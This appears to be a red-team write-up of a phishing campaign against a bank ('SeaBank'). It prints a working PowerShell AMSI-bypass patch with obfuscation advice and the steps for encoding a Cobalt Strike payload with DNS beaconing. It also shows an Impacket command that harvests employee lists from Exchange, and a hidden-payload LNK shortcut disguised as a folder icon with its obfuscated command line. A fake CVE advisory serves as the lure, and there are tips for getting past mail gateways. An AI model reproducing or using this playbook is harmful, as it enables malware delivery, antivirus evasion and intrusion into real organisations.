 <h1 align="center">🎣 My Phishing Case - SeaBank 🎣</h1>

## I.Create Malware - Simple CobaltStrike-Agent Runner
1. Encode the Payload
The original payload will use the default Cobalt Strike payload in .ps1 format.
Use "Windows Stageless Payload" to reduce detection chances and utilize DNS beaconing to evade outbound TCP connection blocks on the target system.
Then, use "encode.ps1" with the generated payload to obtain a Base64-encoded output.
Copy this output and replace it in "decode.ps1", which will be responsible for decoding and executing the Cobalt Strike payload.
The format of decode.ps1 will be as follows:
![image](https://github.com/user-attachments/assets/c6b7d3a5-190b-4bca-a9ba-f1a4bfb03e65)
3. Bypass Defender
Regarding the bypass method, since the entire execution process relies on PowerShell, using existing AMSI bypass repositories is sufficient.Recon and information gathering on the target’s antivirus (AV) software is crucial because some bypass techniques only work on specific AVs. Additionally, once a bypass technique is used, it may be blacklisted, so modifying the bypass script (e.g., using string concatenation or encryption) is necessary for each attack.In this campaign, Red Team customized the AmsiScanBuffer bypass method from Rasta-Mouse to evade AV detection. The original AMSI bypass code is as follows:
```
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll") #-----------Modify this------------------
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer") #-----------Modify this------------------
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p) #-----------Modify this------------------
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3) #-----------Modify this------------------
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
The above patch needs to have its string values and byte sequences obfuscated to avoid detection by signature-based security measures.
## II. Reconnaissance to Create a Target List
1. Exchanger.py
Creating a target list requires a valid account on the target's Mail Exchange server. This can be done using the "exchanger.py" tool from the Impacket toolkit:
```
python3 exchanger.py DomainName/Username:"Password"@mail.domain.com nspi list-tables
```
The extracted email list will include email addresses, departments, and job titles of all users. This list can be used to compile a target list.

A custom Python script can be created to filter users based on the "title" field. This allows for a more focused attack on a specific department, which reduces scope and increases success rates:

<p align="center">
  <img src="https://github.com/user-attachments/assets/016f7dff-c28e-4a6c-afc9-59c53b0b636a">
</p>

## III. Weaponization
To increase the success rate, the payload-containing attachment will be sent as a ZIP file. This prevents the file format from being immediately visible when the recipient reads the email.

Additionally, the PowerShell script responsible for executing the payload should be hidden from the user's interface by setting its "Hidden Item" attribute:
![image](https://github.com/user-attachments/assets/8e49219f-8bc8-4e00-9915-a582d99b15b9)
Additionally, create a LINK SHORTCUT file in the payload directory to trigger the payload, with the "target" configured as follows:
```
C:\Windows\System32\cmd.exe /c "set STR1=power&& cmd.exe /c %STR1%shell -WindowStyle hidden -exec bypass Import-Module .\Thong_tin_cve\Thong_tin_chi_tiet.ps1
```

<p align="center">
  <img src="https://github.com/user-attachments/assets/f77cc8bb-af2d-42e3-803e-7e8cd288dbe1">
</p>

This shortcut file will call the PowerShell.exe process of the operating system and execute the hidden payload located in the "Thong_tin_cve" folder.

The goal is to trick the user into clicking the shortcut file. To increase the click-through rate, the shortcut icon should be changed to resemble a folder icon (this can be done via the "Change Icon" option).

The folder name, file name, email content, and attached document should be customized according to the selected attack scenario.

In this case, the Red Team is using a fake security advisory about a new Exchange CVE that could lead to personal data leaks. Therefore, all naming conventions (folder, files, email, and attached document) will align with this phishing scenario.

Here is the full-chain of payload:
![image](https://github.com/user-attachments/assets/aa13078f-aac5-4800-9621-67001abd36be)

## IV. Drop the BOMBS
After completing the setup and weaponization, the final step is to send an email with the attached file to the predefined target list with the following content:

<p align="center">
  <img src="https://github.com/user-attachments/assets/f248c44d-d27f-457b-8f56-05059cdd6500">
</p>

=>And now, just sit back and wait for the targets to take the bait.
<p align="center">
  <img src="https://github.com/user-attachments/assets/c757c30b-c57c-4f4f-b875-5957b517de10">
</p>
<p align="center">
😈Mission accomplished!😈
</p>

## IV. Analysis of Strengths and Weaknesses
1. Strengths
This technique is extremely easy to implement, has a high success rate, and works well on both EDR and Kaspersky AV.
High flexibility and reusability due to using PowerShell as the main platform.
2. Weaknesses
Since the technique relies on PowerShell as the main platform, it will not work on Domains or Forests that have a "Disable PowerShell" policy in place. (However, there are ways to bypass such policies—we will discuss this in a separate topic later.)
And, of course, the common weakness of all phishing-based malware drop techniques: Mail Gateway. If the Mail Gateway blocks one of the formats we use (even after compression), the malware delivery to the user will not happen. However, this issue can be mitigated by compressing the entire payload and setting a password before sending it. This approach makes preparation more challenging and reduces the success rate, but it helps evade Mail Gateway detection. (Therefore, leveraging new executable formats will open up more possibilities.)







